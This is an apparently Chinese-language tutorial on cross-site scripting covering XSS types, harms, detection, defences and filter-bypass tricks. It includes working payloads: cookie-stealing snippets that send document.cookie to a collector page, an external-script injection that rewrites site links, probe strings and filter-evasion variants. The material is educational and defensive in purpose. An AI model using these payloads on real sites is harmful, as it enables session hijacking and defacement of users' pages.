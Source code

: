 

　　跨站脚本简称xss（cross-site scripting），利用方式主要是借助网站本身设计不严谨，导致执行用户提交的恶意js脚本，对网站自身造成危害。

XSS 是如何发生的呢
假如有下面一个textbox

<input type="text" name="address1" value="value1from">
value1from是来自用户的输入，如果用户不是输入value1from,而是输入 "/><script>alert(document.cookie)</script><!- 那么就会变成

<input type="text" name="address1" value=""/><script>alert(document.cookie)</script><!- ">
嵌入的JavaScript代码将会被执行

 

或者用户输入的是  "onfocus="alert(document.cookie)      那么就会变成 

<input type="text" name="address1" value="" onfocus="alert(document.cookie)">
 事件被触发的时候嵌入的JavaScript代码将会被执行

 攻击的威力，取决于用户输入了什么样的脚本



Xss分类
xss大致分为：反射型、存储型、DOM型（这三种为主流）
反射型xss：只是简单地把用户输入的数据”反射”给浏览器，攻击时需要用户配合点击，也叫”非持久型xss”。（之前项目有遇到过这种，用户在输入时写一个死循环弹出框而导致程序无法正常运行）
存储型xss：会把用户输入的数据”存储”在服务器端，也叫”持久性xss”，常见留言板等可以提交展示用户输入内容的功能点。
DOM型xss：从是否存储可划分成反射型，可通过修改页面的DOM节点形成的xss漏洞。

注意：无论反射型还是存储型，都是需要与服务端交互的，即服务端将提交的内容反馈到了html源码内，导致触发xss，也就是说返回到html源码中可以看到触发xss的代码；
而DOM型xss是不与服务端交互的，只与客户端上的js交互，也就是说提交的恶意代码，被放到了js中执行，然后显示出来。那么这种形式有一个问题，就是html源码里面不存在触发xss的代码，
因为服务端返回的源码都是一样的，只不过源码里面包含了一段js，这段js再执行后生成了一段xss代码，可以在审查元素中查看到。


检测XSS
手工检测：在输入时最特殊字符如< > " ' ()等做转义
2.工具检测，burpsuit等

Xss危害
　　xss漏洞是发生在客户端，目的是让浏览器执行一段用户提交的恶意js代码，从而达到某种目的。从表面上看，xss漏洞的危害止步于客户端，
且主要就是用来执行js获取用户信息（比如浏览器版本等等）。
然而由于xss漏洞可能发生的地方很多，因此被利用的情况也不统一，以下列举了xss漏洞能够造成的一些危害（xss漏洞危害包含但不仅限于以下几种）。

cookie劫持（窃取cookie）
钓鱼，利用xss构造出一个登录框，骗取用户账户密码。
Xss蠕虫（利用xss漏洞进行传播）
修改网页代码
利用网站重定向
获取用户信息（如浏览器信息，IP地址等）
网站挂马

利用xss窃取cookie
利用xss进行cookie获取劫持是最常用的一种姿势，因为其能获取到管理员权限，危害较大，且利用简单。

cookie介绍
cookie分为内存cookie和硬盘cookie，内存cookie储存在浏览器内存中，关闭浏览器则消失。cookie由变量名与值组成，其属性里有标准的cookie变量，也有用户自定义的属性。
cookie格式：Set-Cookie:=[;=][;expiress=][;domain=][;path=][;secure][;httponly]
cookie各个参数详细内容：

Set-cookie:http响应头，向客户端发送cookie。
Name=value:每个cookie必须包含的内容。
Expires=date:EXpires确定了cookie的有效终止日期，可选。如果缺省，则cookie不保存在硬盘中，只保存在浏览器内存中。
Domain=domain-name:确定了哪些inernet域中的web服务器可读取浏览器储存的cookie，缺省为该web服务器域名。
Path=path:定义了web服务器哪些路径下的页面可获取服务器发送的cookie。
Secure:在cookie中标记该变量，表明只有为https通信协议时，浏览器才向服务器提交cookie。
Httponly:禁止javascript读取,如果cookie中的一个参数带有httponly，则这个参数将不能被javascript获取；httponly可以防止xss会话劫持攻击。
利用xss窃取cookie方法
本地写一个xss_cookie.php页面，用于接收cookie。

在存在xss漏洞的地方，插入以下代码，便可以将cookie发送到xss_cookie.php，并且将cookie参数传递进去，写入文件中。

常用获取cookie的js代码(可自行扩展):

<img src="http://localhost/cspt/XSS_cookie.php?cookie='+document.cookie"></img>
<script>new Image().src="http://localhost/cspt/XSS/xss_cookie.php?cookie="+document.cookie;</script>
提交之后，本地cookie.txt文件中就会写入cookie值。

XSS蠕虫：主要出现在社交软件，依靠社交软件的传播性扩大范围。
利用xss篡改网页
前提：网站必须存在存储型xss漏洞，并且会将结果返回到页面上。
这样我们就可以插入一段js代码，作用在于获取网站源码中的标签，然后修改其中的属性值，达到修改网页的效果。
实例：修改网站所有连接地址
本地编写一个test.js脚本，内容如下：

将以下语句插入存在存储型xss漏洞的网站

<script type='text/javascript' src='http://localhost/cspt/XSS/test.js'></script>
可以发现存在该漏洞的网页上所有的链接都变成了www.google.com。

注：javascript加载外部的代码文件可以是任意扩展名（无扩展名也可以）

利用xss获取用户信息
　　xss获取用户信息，运用最多的还是获取cookie信息，但除此之外，还可以获取用户浏览器版本、外网IP地址、浏览器安装的插件类型等等。以下列举了利用xss获取的客户端用户信息（包含但不仅限于以下几种）。

alert(navigator.userAgent);读取userAgent内容
alert(document.cookie);读取用户cookie内容
利用java环境，调用java Applet的接口获取客户端本地IP
注：利用Xss漏洞能做的事有很多，前面已经列举了一些，这里便不对每一个都展开讲解，如需了解更多的xss漏洞内容，最好的方式还是看书。

Xss漏洞探测
前面介绍了一些xss漏洞的基础内容，那么如何去检测一个网站（某个点）是否存在xss漏洞呢？

xss探针
我们可以在测试xss的位置写入以下代码，查看页面源码，观察哪些代码被过滤或者转义。

1
'';!--"<XSS>=&{()}
xss探针可检测出网站有没有对xss漏洞做最基础的防御。

基础xss语句
除了xss探针以外，我们也可以输入最简单的测试语句：

1
<script>alert(/xss/)</script>
如果插入的语句被原封不动的呈现在了浏览器中，那么说明了2个问题：

代码没有被过滤，说明存在xss
代码没有被执行，因为没有闭合类似textarea标签，可以查看下源码。
如果发现某些参数被过滤了，那么尝试使用其他方式（详细介绍在绕过一节会讲）。

xss检测常用语句
列举一些常用的xss漏洞检测代码：


<script>alert(/xss/);</script>
<script>alert(/xss/)//
<script>alert("xss");;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;</script>//用分号，也可以分号+空格（回车一起使用）
<img src=1 onmouseover=alert(1)>
<a herf=1 onload=alert(1)>nmask</a>
<script>window.a==1?1:prompt(a=1)</script>
<script>a=prompt;a(1)</script>
<img src=0 onerror=confirm('1')>
Xss防御
　　如何利用xss漏洞实施攻击并不是身为安全工程师的重点，xss防御才是我们努力要去做的。以下列举几种常见的xss防御方式，个人认为也是非常有效的方式。

可在cookie中设置httponly（浏览器禁止页面的js访问带有httponly属性的cookie）
xss filter（检查输入，设置白名单方式）
输出检查（编码，转义，常用编码：html编码，js编码，16进制等)
针对不同位置的输出，使用不同的处理方式
处理富文本
header中使用content-Sencurity-Policy字段，规定请求js的域名白名单（CSP策略）
设置httponly
　　httponly无法完全的防御xss漏洞，它只是规定了不能使用js去获取cookie的内容，因此它只能防御利用xss进行cookie劫持的问题。Httponly是在set-cookie时标记的，可对单独某个参数标记也可对全部参数标记。由于设置httponly的方法比较简单，使用也很灵活，并且对防御cookie劫持非常有用，因此已经渐渐成为一种默认的标准。

xss filter
　　Xss filter往往是一个文本文件，里面包含了允许被用户输入提交的字符（也有些是包含不允许用户提交的字符）。它检测的点在于用户输入的时候，xss filter分为白名单与黑名单，推荐使用白名单，但即使使用白名单还是无法完全杜绝xss问题，并且使用不当可能会带来很高的误报率。

编码转义
　　编码方式有很多，比如html编码、url编码、16进制编码、javascript编码等。
在处理用户输入时，除了用xss filter的方式过滤一些敏感字符外，还需要配合编码，将一些敏感字符通过编码的方式改变原来的样子，从而不能被浏览器当成js代码执行。

处理富文本
　　有些网页编辑器允许用户提交一些自定义的html代码，称之为”富文本”。想要在富文本处防御xss漏洞，最简单有效的方式就是控制用户能使用的标签，限制为只能使用a、div等安全的标签。

处理所有输出类型的xss漏洞
　　xss漏洞本质上是一种html注入，也就是将html代码注入到网页中。那么其防御的根本就是在将用户提交的代码显示到页面上时做好一系列的过滤与转义。

HTML标签中输出
即用户输入的内容直接在标签中显示:

1
<div>$input</div>
防御方式，将用户输入进行html编码。

HTML属性中输出
即用户输入的内容出现在标签的某个属性中：

1
<div name="$input"></div>
防御方式，将用户输入进行html编码。

Script标签中输出
即用户输入的内容出现在script标签里面：

1
2
3
<script>
var a="$input";  // $input=";alert(/xss/);//"; 则会产生xss漏洞
</script>
防御方式，将用户输入进行javascript编码。

在事件中输出
即在事件标签中输出用户输出的内容，比如onclick标签等。
防御方式，将用户输入进行javascript编码。

在CSS中输出
即用户输入的内容出现在了css的style等标签中。
防御方式，进行十六进制编码。

在地址中输出
这个跟在html属性中输出类似，即在a标签的href属性中输出。
防御方式，将用户输入进行url编码。

总结：总得来说防御xss的方式只是三种：httponly、过滤字符、转义字符。然而使用何种编码转义，什么地方需要做转义才是真正防御xss漏洞的难点及重点，如果能搞明白并解决这个问题，那么xss漏洞将会无处可寻。————《白帽子将web安全》一书xss篇读后感。
Xss绕过技巧
　　有xss防御便会有xss绕过防御姿势，这是攻与防不断博弈的表现与成果。作为一名安全工程师，了解如何绕过xss防御可以更好地解决xss防御问题。（这里探讨的绕过xss防御不包含绕过waf的部分）

绕过xss filter
绕过xss filter的前提在于，xss filter使用了黑名单，并且没有过滤完全。
前提一：如果过滤了”《script》”字符串,但没有过滤”<”、”>”字符，则可以使用javascript:[code]伪协议的形式。

1
<img src="javascript:alert('test');">
前提二：过滤了《script》，且只过滤一次。

1
<scr<script>ipt>
前提三：没有正确处理空格、回车等字符

1
2
3
<img src="javas
Cript:
Alert(/xss/)" width=100>
关于绕过xss filter的方式还有很多，这里不一一展开了，只是列举下常见的方法：

转换大小写
大小写混写
双引号改单引号
引号改为/
用全角字符
使用javascript伪协议
使用回车、空格等特殊字符
在css的style中使用/**/注释符
使用字符编码
利用事件触发xss
